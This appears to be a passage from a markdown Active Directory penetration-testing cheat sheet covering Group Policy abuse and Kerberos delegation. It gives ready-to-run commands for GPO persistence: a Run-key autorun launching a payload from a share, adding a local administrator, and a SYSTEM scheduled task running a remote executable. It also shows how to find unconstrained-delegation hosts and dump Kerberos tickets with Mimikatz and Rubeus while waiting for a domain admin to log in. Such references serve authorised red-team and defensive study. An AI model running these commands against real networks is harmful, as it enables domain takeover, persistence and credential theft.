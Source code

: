 ````

#### Create GPO and link to OU
- Uses RSAT tools or https://github.com/Dliv3/SharpGPO
```
New-GPO -Name "SMB security" | New-GPLink -Target "OU=<OU>,DC=<DOMAIN>,DC=<DOMAIN>"

SharpGpo.exe --Action NewGPO --GPOName SMB security
SharpGpo.exe --Action NewGPLink --DN "OU=<OU>,DC=<DOMAIN>,DC=<DOMAIN>" --GPOName SMB security
```

### Abuses
#### Set autorun value
- Uses RSAT tools
- Best is to set the executable on a share in the domain
```
Set-GPPrefRegistryValue -Name "Testing GPO SMB security" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\<HOSTNAME>\<SHARE>\pivot.exe" -Type ExpandString
```

#### Add local admin abuse
- https://github.com/FSecureLABS/SharpGPOAbuse
```
./ShapGPOAbuse.exe --AddLocalAdmin --GPOName <GPONAME> --UserAccount <USERNAME>
gpupdate /force #On the target machine if you got normal access already
net localgroup administrators
```

#### Create scheduled task
- https://github.com/FSecureLABS/SharpGPOAbuse
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c <SHARE>\<EXECUTABLE FILE>" --GPOName "<GPO>"
```

## Delegation
- In unconstrained and constrained Kerberos delegation, a computer/user is told what resources it can delegate authentications to;
- In resource based Kerberos delegation, computers (resources) specify who they trust and who can delegate authentications to them.

### Unconstrained Delegation
- To execute attack owning the server with unconstrained delegation is required!

#### Discover domain users which have unconstrained delegation
```
Get-DomainUser | Where-Object -Property useraccountcontrol -Match TRUSTED_FOR_DELEGATION 
```

#### Discover domain computers which have unconstrained delegation
- Domain Controllers always show up, ignore them
```
Get-DomainComputer -UnConstrained
Get-DomainComputer -UnConstrained | select samaccountname
```

### Unconstrained delegation computer
#### Check if any DA tokens are available on the unconstrained machine
- Wait for a domain admin to login while checking for tokens
```
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

```
.\Rubeus.exe triage
```
````
